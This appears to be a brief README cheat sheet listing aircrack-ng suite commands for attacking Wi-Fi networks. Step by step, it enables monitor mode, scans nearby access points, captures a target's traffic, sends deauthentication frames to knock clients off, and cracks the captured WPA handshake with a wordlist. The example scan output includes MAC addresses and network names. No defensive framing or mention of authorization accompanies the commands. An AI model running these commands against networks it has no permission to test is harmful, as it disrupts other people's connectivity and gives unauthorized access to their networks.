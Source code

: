 ### enable monitor mode
```
sudo ifconfig wlan0 down
sudo airmon-ng start wlan0
```



### airodump-ng scanning
```
sudo airodump-ng wlan0mon

# ex)
# 70:5D:CC:65:45:C2 - 305
# 88:36:6C:90:F4:DE - Iptime
# 70:5D:CC:6C:F2:80 - O
# 70:5D:CC:8A:A2:7E - iptime
# 80:4E:81:0A:75:83 - my phone
```


### save traffic packets
```
sudo airodump-ng --bssid 00:00:00:00:00:00 -w filename wlan0mon
```


### execute aireplay-ng
```
sudo aireplay-ng --deauth 100 -a 00:00:00:00:00:00 wlan0mon

# ex)
# sudo aireplay-ng --deauth 100 -a 70:5D:CC:65:45:C2 wlan0mon
```


### crack password
```
sudo aircrack-ng filename.cap -w dict.lst
```
